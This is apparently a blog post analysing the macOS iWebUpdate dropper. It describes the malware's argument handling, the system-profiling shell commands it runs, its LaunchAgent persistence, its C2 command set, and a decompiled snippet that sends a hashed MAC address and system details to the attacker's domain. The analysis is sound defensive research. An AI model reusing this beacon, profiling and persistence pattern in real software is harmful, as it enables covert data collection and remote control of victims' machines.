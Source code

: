 ```yaml
---
title: macOS/iWebUpdate Dropper Threat Analysis
date: 2023-3-1 1:00:00 +0800
categories: [ Reverse ]
tags: [ macos ]     # TAG names should always be lowercase
---
```


## Introduction
The malware existed on [VirusTotal](https://www.virustotal.com/gui/file/3e66e664b05b695b0b018d3539412e6643d036c6d1000e03b399986252bddbfb/detection), and as Objective-See community [blog](https://objective-see.org/blog/blog_0x72.html) conducted more research on this malware, its detection rate on VT gradually increased.

![](/image/2023-03-01/1_mal.png)

In this article, I aim to supplement and organize some points that were not explained in the aforementioned blog. The malware was not specifically generated for the ARM architecture and is formatted for x86_64. It first appeared as early as 2018. Interestingly, the name "iweb" can be found on Google as a website development tool from Apple, but it is no longer maintained.

## Program Initical
iWebUpdate will execute different behaviors based on the number of parameters, which include persistent behavior and downloader behavior.

![](/image/2023-03-01/2_code.png)

## Main Function
When the program is executed with the parameters `update` and `C=<any cmd>`, it will enter the `MainFunction` and pass the value after `C=` as an argument. 

This function will first collect computer-related information and then download the `update.php` file to obtain the malicious behavior that the C2 wants the malware to perform.

![](/image/2023-03-01/3_code.png)

iWebUpdate collected two types of information: system version and CPU name. The values were obtained as follows, and then the MAC address of the system's network was extracted and hashed.

1. `echo $(system_profiler SPSoftwareDataType | grep 'System Version:' | cut -d: -f2)`
2. `echo $(defaults read ~/Library/Preferences/com.apple.SystemProfiler.plist 'CPU Names') | cut -d'\"' -f4`

![](/image/2023-03-01/4_code.png)

Finally, the program combines all the information to form an HTTP request. The main code is as follows, and the parsed result is as follows:

- url: `https://iwebservicescloud[.]com/api/v0/update.php`
- GET argument
    - `v=2` <-- I guess this is malware version ?
    - `c=` <-- command
    - `u=`  <--network hash
    - `os=` <--software version
    - `hw=` <--hardware version

```
  v11 = 2;
  __snprintf_chk(
    http_request,
    request_length,
    0,
    0xFFFFFFFFFFFFFFFFLL,
    "%s%s?v=%d&c=%s&u=%s&os=%s&hw=%s",
    "https://iwebservicescloud.com/api/v0",
    filename,
    v11,                                        // version?
    cmd,
    &system_message_100023F50,
    _url_encoded_system_vers,
    _url_encoded_cpu_name);
```

### Parsing C2 command

After downloading update.php, the program uses '\n' and ';' as separators for each command. After processing, three types of commands can be parsed.

| Commnad | description    |
| ------- | -------------- |
| unzip   | download and unzip file  |
| system  | run command         |
| run     | run program         |

The special thing about the unzip command is that it includes file downloads, and the URL in this part is not hardcoded but can be dynamically adjusted, allowing attackers to place the malware on other URLs.

![](/image/2023-03-01/5_code.png)
![](/image/2023-03-01/6_code.png)

## Persistence

The attacker uses a common macOS persistence technique called LaunchAgent to drop a plist `~/Library/LaunchAgents/iwebupdate.plist` under the user's directory.
And the malware executable wll be drop to  `~/Library/Services`

## Communication with C2

iWebUpdate uses MD5 hash as a means of machine identification and file comparison in several parts of its behavior. This includes: 1. the computer's MAC address, and 2. the hash comparison of downloaded files.
![](/image/2023-03-01/7_code.png)

To verify that the program uses MD5 to hash the MAC address, we can compare the MAC address information of my test system with the hash value output by the program during runtime.
The MAC address of my test system is 00:0c:29:a8:b7:ba, which, after being hashed with MD5, should produce the value "af2eb079ce01bb27af65c92b25264387".

![](/image/2023-03-01/8_code.png)
![](/image/2023-03-01/9_code.png)

The result of running the program matches our expected result, so we can confirm that the algorithm used in the malicious program is indeed MD5.
![](/image/2023-03-01/10_code.png)